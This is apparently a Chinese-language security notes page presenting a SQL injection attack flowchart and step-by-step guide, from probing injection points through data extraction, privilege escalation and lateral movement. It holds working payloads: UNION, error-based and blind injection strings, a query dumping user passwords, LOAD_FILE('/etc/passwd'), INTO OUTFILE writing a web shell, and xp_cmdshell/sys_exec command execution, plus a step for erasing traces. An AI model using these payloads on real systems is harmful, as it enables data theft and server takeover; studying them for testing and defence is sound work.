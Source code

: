 # SQL注入完整攻击流程图

```
graph TD
A[开始] --> B{目标识别}
B -->|Web应用| C[注入点探测]
C --> D[参数篡改测试]
D --> E{是否报错?}
E -->|是| F[确定注入类型]
E -->|否| G[盲注检测]
G --> H{页面差异/延迟?}
H -->|是| I[确认盲注存在]
H -->|否| J[结束检测]

F --> K[字符型/数字型判断]
K --> L{是否有回显?}
L -->|是| M[联合查询注入]
L -->|否| N[选择注入方式]
N --> O[报错注入]
N --> P[布尔盲注]
N --> Q[时间盲注]

M --> R[字段数探测]
R --> S[确定显示位]
S --> T[获取数据库信息]
T --> U[数据库版本/用户]
U --> V[爆库名]

P --> W[构造布尔表达式]
W --> X[逐位数据猜测]
Q --> Y[构造时间延迟]
Y --> Z[基于响应的推断]

O --> AA[触发报错函数]
AA --> AB[提取错误信息]

V --> AC[爆表名]
AC --> AD[爆列名]
AD --> AE[拖取数据]

AE --> AF{权限提升?}
AF -->|是| AG[系统命令执行]
AF -->|否| AH[数据导出]

AG --> AI[数据库提权]
AI --> AJ[OS交互]
AJ --> AK[横向移动]

AH --> AL[数据整理分析]
AK --> AL
AL --> AM[清理痕迹]
AM --> AN[攻击完成]

style C fill:#f9f,stroke:#333
style I fill:#bbf,stroke:#555
style T fill:#f96,stroke:#900
style AE fill:#6f9,stroke:#090
style AG fill:#f99,stroke:#c00
```

![Snipaste_2025-04-19_12-51-46](./assets/images/Snipaste_2025-04-19_12-51-46.png)

![Snipaste_2025-04-19_12-52-13](./assets/images/Snipaste_2025-04-19_12-52-13.png)

## 流程图说明

1. **目标识别**：确定存在数据库交互的Web应用

2. **注入点探测**：

   测试URL参数/表单输入

   添加`'`、`"`、`\`等特殊字符

3. **错误判断**：

   直接报错：快速确认注入类型

   无报错：进入盲注检测流程

4. **注入方式选择**：

   联合查询注入（有回显）

   ```sql
   UNION SELECT 1,@@version,3
   ```

   报错注入（显示错误信息）

   ```sql
   AND updatexml(1,concat(0x7e,version()),1)
   ```

   布尔盲注（页面内容差异）

   ```sql
   AND ascii(substr(database(),1,1))>100
   ```

   时间盲注（响应延迟）

   ```sql
   AND IF(1=1,SLEEP(5),0)
   ```

5. **信息收集阶段**：

   获取数据库版本：`@@version`

   列出数据库：`information_schema.schemata`

   爆表名：`information_schema.tables`

   爆列名：`information_schema.columns`

6. **数据提取**：

   常规数据获取：

   ```sql
   UNION SELECT user,password FROM users
   ```

   大段数据获取：

   ```sql
   #用于从服务器文件系统中读取指定文件的内容，并以字符串形式返回
   LOAD_FILE('/etc/passwd')
   ```

7. **权限提升**：

   数据库写文件：

   ```sql
   #可以将查询结果写入服务器上的文件中
   INTO OUTFILE '/var/www/shell.php'
   ```

   执行系统命令：

   ```sql
   #在 MySQL 中，默认情况下并不提供类似 MSSQL 的 xp_cmdshell 功能来直接执行系统命令。 可以通过安装用户自定义函数（UDF）来实现类似的功能。
   MSSQL: xp_cmdshell('whoami')
   #sys_exec() 是由第三方插件 lib_mysqludf_sys 提供的函数，允许在 MySQL 中执行系统命令
   MySQL: sys_exec()
   ```

8. **横向移动**：

   > 内网扫描
   >
   > 密码爆破
   >
   > 漏洞利用